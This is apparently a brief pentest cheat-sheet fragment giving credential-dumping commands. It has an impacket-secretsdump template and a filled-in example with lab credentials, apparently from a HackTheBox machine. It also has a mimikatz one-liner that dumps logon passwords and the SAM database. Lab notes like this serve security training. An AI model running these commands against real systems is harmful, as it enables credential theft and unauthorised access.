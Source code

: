 ### secretsdump
```
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<TARGET_IP>
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42
```
### mimikatz
```
.\mimikatz.exe "privilege::debug" "logs" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```
